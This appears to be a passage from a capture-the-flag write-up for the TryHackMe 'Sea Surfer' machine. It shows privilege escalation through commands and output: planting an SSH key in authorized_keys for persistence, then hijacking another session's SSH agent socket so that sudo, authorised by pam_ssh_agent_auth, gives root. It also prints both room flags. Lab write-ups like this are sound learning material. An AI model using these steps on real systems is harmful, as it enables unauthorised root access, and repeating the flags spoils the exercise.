 ```bash
kyle@seasurfer:~$ cat user.txt 
THM{SSRFING_TO_LFI_TO_RCE}
```
# Priv Esc to root
```bash
kyle@seasurfer:~/.ssh$ groups
kyle adm cdrom sudo dip www-data plugdev

kyle@seasurfer:~/.ssh$ ps aux | grep root
kyle        1191  0.0  0.1   6892  2348 pts/0    Ss+  06:12   0:00 bash -c sudo /root/admincheck; sleep infinity
```

have a good ssh connection to machine 
```bash
ssh-keygen
# it will generate id_rsa and id_rsa.pub
cat id_rsa.pub > authorized_keys
# move id_rsa to your machine and 
chmod 600 id_rsa
ssh kyle@seasurfer.thm -i id_rsa
```

```
kyle@seasurfer:~$ cat /etc/pam.d/sudo
#%PAM-1.0

auth sufficient pam_ssh_agent_auth.so file=/etc/ssh/sudo_authorized_keys

session    required   pam_env.so readenv=1 user_readenv=0
session    required   pam_env.so readenv=1 envfile=/etc/default/locale user_readenv=0
@include common-auth
@include common-account
@include common-session-noninteractive:

```

ssh agent
```bash
kyle@seasurfer:~$ ps aux | grep sshd
root         735  0.0  0.3  12172  6788 ?        Ss   10:36   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
kyle        1139  0.0  0.2  13924  5992 ?        S    10:37   0:00 sshd: kyle@pts/0
kyle@seasurfer:~$ ps aux | grep adminch
kyle        1140  0.0  0.1   6892  3236 pts/0    Ss+  10:37   0:00 bash -c sudo /root/admincheck; sleep infinity

kyle@seasurfer:~$ ls /tmp/ssh-6GlVO04FkZ/agent.1139 -l
srwxrwxr-x 1 kyle kyle 0 Apr 11 10:37 /tmp/ssh-6GlVO04FkZ/agent.1139

export SSH_AUTH_SOCK=/tmp/ssh-6GlVO04FkZ/agent.1139

ssh-add -l
sudo -l

root@seasurfer:~# cat root.txt 
THM{STEALING_SUDO_TOKENS}
```


